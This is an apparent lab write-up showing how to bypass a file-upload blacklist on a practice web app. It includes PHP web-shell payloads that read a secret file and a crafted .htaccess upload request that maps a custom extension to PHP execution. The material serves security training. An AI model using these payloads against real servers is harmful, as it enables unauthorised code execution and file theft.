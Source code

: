 # Login
![1_0](01.png)
We can log in to your own account using the following credentials: 
```bash
wiener:peter
```
### We know this lab contains image upload function vunerablity. So lets start looking for it.

# Information gathering

![2_0](02.png)

We can upload the image file under Avatar lable.


We have to create a php executable file which contains a script for fetching the contents of (/home/carlos/secret).

```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
or
```bash 
<?php
$sus = file_get_contents('/home/carlos/secret');
echo $sus
>
```

![3_0](03.png)

From the image, There is file restiction to upload. Now we have to create an executable file to execute via web shell and bypass it.

# Exploit

![4_0](04.png)


Using Burpsuite intercept the upload POST request. Using HTTP History filters add images and You can observe our request has been fetched using GET request **/files/avatars/'your-image'**. Send this request to Repeater.

![5_0](05.png)

In HTTP history, you can fing a POST request **/my-account/avatar** which is used to upload the file.

![6_0](06.png)

Now you have to make some changes to the request to bypass the blacklist restrictions.
1. Change filename parameters sus.php to .htaccess.
2. Change Content-Type header to text/plain.
3. Replace the content of the file: ***addType application/x-httpd-php .l33t***.

```bash
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

addType application/x-httpd-php .l33t
```

[.l33t](https://thibaud-robin.fr/articles/bypass-filter-upload/) 
This maps an arbitrary extension to the executable MIME type application/x-httpd-php. As the server uses the mod_php module, it knows how to handle this already.

We got successfully uploaded after sending the request.

![7_0](07.png)

Now we have to return to the orginal request of uploading your php exploit using back arrow in repeater.

Now change the filename parameter form **sus.php** to **sus.l33t** and send the request again. 

We can notice file was uploaded successfully.

![8_0](08.png)

Again switch to the tab which is containg GET request **/files/avatars/sus.l33t** and send the request.
```bash
akAmIgdkf1u17jW5osmlBm19uY0VS1KA
```
Carlos's secret was retuned in the response.

# Conclution

From this lab we gained the basic idea of how to blacklist bypass restriction file upload function vunerablity.